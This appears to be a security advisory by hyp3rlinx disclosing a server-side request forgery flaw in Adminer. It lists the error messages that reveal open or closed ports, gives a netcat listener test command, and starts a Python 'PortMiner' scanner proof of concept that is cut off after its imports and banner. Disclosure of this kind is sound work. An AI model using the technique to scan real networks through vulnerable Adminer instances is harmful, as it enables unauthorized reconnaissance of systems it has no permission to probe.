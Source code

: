 
Details:
==================
By comparing different failed error responses from Adminer when making SSRF bogus connections, I figured out which ports are open/closed.

Port open ==> Lost connection to MySQL server at 'reading initial communication packet
Port open ==> MySQL server has gone away
Port open ==> Bad file descriptor 
Port closed ==> Can't connect to MySQL server on '<TARGET-IP>';
Port closed ==> No connection could be made because the target machine actively refused it
Port closed ==> A connection attempt failed. 

This worked so well for me I wrote a quick port scanner 'PortMiner' as a proof of concept that leverages Adminer SSRF vulnerability.


PortMiner observations:
======================
No response 'read operation timed out' means the port is possibly open or filtered and should be given a closer look if possible. This seems to occur when scanning
Web server ports like 80, 443. However, when we get error responses like the ones above from the server we can be fairly certain a port is either open/closed. 

Quick POC:
echo -e 'HTTP/1.1 200 OK\r\n\r\n' | nc -l -p 5555
Use range 5555-5555


Exploit/POC:
=============
import socket,re,ssl,warnings,subprocess,time
from platform import system as system_name 
from os import system as system_call

#Adminer Server Side Request Forgery
#PortMiner Scanner Tool
#by John Page (hyp3rlinx)
#ISR: ApparitionSec
#hyp3rlinx.altervista.org 
#=========================
#D1rty0Tis says hi.

#timeout
MAX_TIME=32
#ports to log
port_lst=[]  
#Web server response often times out but usually means ports open.
false_pos_ports=['80','443'] 

BANNER='''
           ____            _   __  __ _                  
          |  _  \         | | |  \/  (_)                 
          | |__) |__  _ __| |_| \  / |_ _ __   ___ _ __  
          |  ___/ _ \| '__| __| |\/| | | '_ \ / _ \ '__| 
          | |  | (_) | |  | |_| |  | | | | | |  __/ |    
          |_|   \___/|_|   \__|_|  |_|_|_| |_|\___|_|                                                                                                             
       '''                               
   